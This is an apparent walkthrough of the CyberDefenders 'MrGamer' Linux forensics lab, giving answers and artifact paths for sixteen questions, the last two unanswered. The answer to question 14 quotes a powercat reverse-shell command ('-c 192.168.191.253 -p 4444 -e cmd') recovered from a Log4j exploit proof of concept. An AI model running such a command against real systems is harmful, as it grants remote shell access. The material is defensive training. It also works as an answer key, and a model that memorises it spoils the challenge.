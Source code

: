 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/mrgamer/">MrGamer</a>

**Platform:** CyberDefenders

**Scenario:** This #Linux image belongs to a user who likes to play games and communicate with friends. Is there something happening under the hood? Test drive your #LinuxForensics skills and identify anomalies!

As a soc analyst, analyze the artifacts and answer the questions.

Resources: [Linux Artifacts - Targeted Locations Quick Reference Guide](https://www.magnetforensics.com/resources/targeted-locations-quick-reference-guide-for-linux-artifacts/)

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `N/A`

**Tools:** `` 

**Note:** In this walkthrough, CyberDefenders offers a lab environment for us to utilize. This feature is included with the PRO subscription.

## **Preparations** 
  
## **Questions and Answers**

***1. I use print statements for my logging -> What is the name of the utility/library the user was looking at exploits for?***  
log4j

![image](https://github.com/user-attachments/assets/4f7dbcd4-0bbe-4bcb-a0ed-fcf03f808f8e)

/home/rafael/.bash_history

port 4444 - It's frequently used with tools like Metasploit, where it serves as the default port for payloads like meterpreter.

***2. Mischievous Lemur -> What is the version ID number of the operating system on the machine?***  
21.10

![image](https://github.com/user-attachments/assets/0689e3c4-2ece-4d4b-bd7f-baf14f4f5dcb)
/etc/os-release

![image](https://github.com/user-attachments/assets/6ebcd38d-f1c9-4703-ba62-27d88e1b2a61)
/usr/lib/os-release

***3. $whoami -> What is the hostname of the computer?***  
rshell-lenovo

![image](https://github.com/user-attachments/assets/c7c55fd7-8fa7-47c1-911a-450fcaf5a410)
/etc/hostname

***4. A little blue birdie told me -> What is one anime that the user likes?***  

attack on titan

![image](https://github.com/user-attachments/assets/98806e01-78ee-4de5-b1ba-4975c88002f2)

I thought Twitter first then I saw thunderbird mail which is a blue bird as well. Then I checked the mailbox and see the Twitter-related events.

/home/rafael/.thunderbird/vrvcx2qf.default-release/ImapMail/imap.gmail.com/INBOX.msf

***5. Into the Matrix, we go -> What is the UUID for the attacker's Minecraft account?***  

8b0dec19-b463-477e-9548-eef20c861492

![image](https://github.com/user-attachments/assets/d5557ea1-6573-48d6-9250-707e082922b7)

/home/rafael/.minecraft/user-cache.json

***6. Today's Youtube video is sponsored by... -> What VPN client did the user install and use on the machine?***  

zerotier

![image](https://github.com/user-attachments/assets/fbd2ddbc-a275-4f1d-b491-58d570f217bf)

/home/rafael/.bash_history

![image](https://github.com/user-attachments/assets/3600f51c-a137-4f96-9e2b-1e407d63b21a)

***7. Be our guest -> What was the user's first password for the guest wifi?***  

![image](https://github.com/user-attachments/assets/c1649231-1a59-4c83-9390-26932b923b06)

/etc/NetworkManager/system-connections/Ezmoneynmconnection

093483

![image](https://github.com/user-attachments/assets/bda51ff7-82ec-49f4-ae0f-77ef010ba3bf)

but not the first

/home/rafael/.thunderbird/vrvcx2qf.default-release/ImapMail/imap.gmail.com/INBOX

![image](https://github.com/user-attachments/assets/1ce86d6a-990f-475b-9633-e48d610389ba)

***8. If a picture is worth a thousand words, how many is a video worth? -> The user watched a video that premiered on Dec 11th, 2021. How many views did it have when they watched it on February 9th?***  

I first look into mozilla files but did not find it

![image](https://github.com/user-attachments/assets/e685cda2-2df7-48ff-b66e-8d65a3ea0c6d)

265342

/home/rafael/pictures/Screenshot from 2022-02-09 16-42-10.png

***9. I'm hungry for videos -> What is the new channel name for the YouTuber whose cookbook is shown on the device?***  

Babish Culinary Universe

![image](https://github.com/user-attachments/assets/16b8f2f8-dad3-44d1-9092-c8677928b0cb)

/home/rafael/.cache/thumbnails/large

> this directory is used to cache thumbnails to speed up file browsing, so your system doesn't have to regenerate thumbnails each time you open a folder.

![image](https://github.com/user-attachments/assets/7a38f7c0-a77f-475c-82d9-8aacd1e285cd)

![image](
https://github.com/user-attachments/assets/681ea8be-d396-4017-9f59-9af770187a91)

***10. Hunt the Wumpus -> What is the module with the highest installed version for the chat application with the mascot Wumpus?***  

discord_voice

![image](https://github.com/user-attachments/assets/becbd057-19dd-4856-97a0-cdbbf557e4be)

![image](https://github.com/user-attachments/assets/7491a8f9-ee53-4e2d-b673-8fc16f0a9eda)

/home/rafael/.config/discord/0.0.16/modules/installed.json

***11. It's raining ocelots and wolves -> According to Windows, what was the temperature in Fahrenheit on February 11th, 2022, at 6:30 PM?***  

45F

![image](https://github.com/user-attachments/assets/3a724ac0-bc28-48eb-af50-dca59e7df823)

/home/rafael/.cache/thumbnails/large

the image is unreadable

exported it then use exiftool to check the metadata

![image](https://github.com/user-attachments/assets/3cdba1d0-1698-477b-a3bc-1e2ff92783be)

it provides the original file path

/home/rafael/marshalsec/poc/YXvySdGd.jpeg

![image](https://github.com/user-attachments/assets/1fcd8360-dec1-47cc-b7ee-2701acf08585)

***12. Never gonna give... up on this question -> What is the upload date of the second YouTube video on the channel from which the user downloaded a YouTube video?***  

![image](https://github.com/user-attachments/assets/34d3f53b-9ef2-4edc-a268-1d6886480d55)

rickrolled 

![image](https://github.com/user-attachments/assets/8c572315-af45-411f-a082-e5cbae117c78)

10/25/2009

***13. Buzzy Bees -> What is the SHA-1 hash of Minecraft's "latest" release according to the system?***  

3c6e119c0ff307accf31b596f9cd47ffa2ec6305

![image](https://github.com/user-attachments/assets/790e61d9-51f0-44f4-b2bb-2a38cecba423)

![image](https://github.com/user-attachments/assets/66b43dad-b45b-4b08-9c30-8a2fb44daa17)

***14. The RCE is base(64)d on what? -> What were the three flags and their values that were passed to powercat? The answer must be provided in the same format as the entered command. (For example, if the command was "powercat -D Y -l a -n," the answer would be "-D Y -l a -n")***  
Flags(e.g.,-c 192.**...) Flags(e.g.,-c 192.**...)  

-c 192.168.191.253 -p 4444 -e cmd

![image](https://github.com/user-attachments/assets/ac8d325c-5ae4-4e39-a10e-d0ccfa49ebdc)

/home/rafael/marshalsec/.git/poc/Log4jRCE.java

![image](https://github.com/user-attachments/assets/7c0b4e20-eda1-48ae-82ea-40f9a0c2b31f)

cyberchef

***15. Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?***  

***16. Matrix_1999 is the key! -> What is the mojangClientToken stored in the Keystore?***  
